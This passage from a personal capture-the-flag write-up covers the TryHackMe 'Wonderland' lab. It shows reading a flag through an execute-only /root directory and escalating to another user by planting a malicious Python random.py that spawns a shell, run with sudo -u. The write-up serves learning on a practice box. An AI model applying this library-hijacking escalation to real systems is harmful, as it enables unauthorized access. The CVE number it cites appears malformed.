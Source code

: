 I didn't have a clue how to exploit this so I just continued my enumeration, looking up the kernel version led me to try CVE-018-18955 on the box, which kind of gave me a "root prompt" but without any special priveleges, and I have no clue why

I took a step back and tried finding the `user.txt` flag, I ran couple `find` commands but nothing came up, I started running out of ideas till I viewed the hint on the website

![upside down](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/thm/wonder/upside_down.png)

I went to check the root directory and surprise surprise, we have execute permissions on it. this means we can't list the files on `/root` but we can run commands or read files from there as long as we know the names of the files, lucky for me, tryhackme tells me to > Obtain the flag in user.txt

```bash
alice@wonderland:~$ ls -lhd /root
drwx--x--x 4 root root 4.0K May 25  2020 /root
alice@wonderland:~$ ls /root
ls: cannot open directory '/root': Permission denied
alice@wonderland:~$ cat /root/user.txt
thm{"REDACTED FLAG"}
alice@wonderland:~$
```
### escalating to rabbit

examining `/etc/passwd` tells me that there 4 regular users on the box

```bash
tryhackme:x:1000:1000:tryhackme:/home/tryhackme:/bin/bash
alice:x:1001:1001:Alice Liddell,,,:/home/alice:/bin/bash
hatter:x:1003:1003:Mad Hatter,,,:/home/hatter:/bin/bash
rabbit:x:1002:1002:White Rabbit,,,:/home/rabbit:/bin/bash
```
I already know I can execute a script as the user `rabbit` but didn't know that to do with that information, and with of lot of time passed enumerationng, I decided to peak at a write up, but hey let's keep that between me and you

doing so I've learned 2 new things
    <ul> you can execute commands as another user using `sudo -u USER COMMAND` </ul>
    <ul> python tries to find imported libraries in the current working directory before looking for them somewhere else, knowing this we can make a malicious `random.py` to elevate priveleges </ul>

of course, it's so obvious, *if* I had known those informations before

```bash
alice@wonderland:~$ echo 'import pty;pty.spawn("/bin/bash")' > random.py
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 
[sudo] password for alice: 
rabbit@wonderland:~$ whoami
rabbit
rabbit@wonderland:~$
```
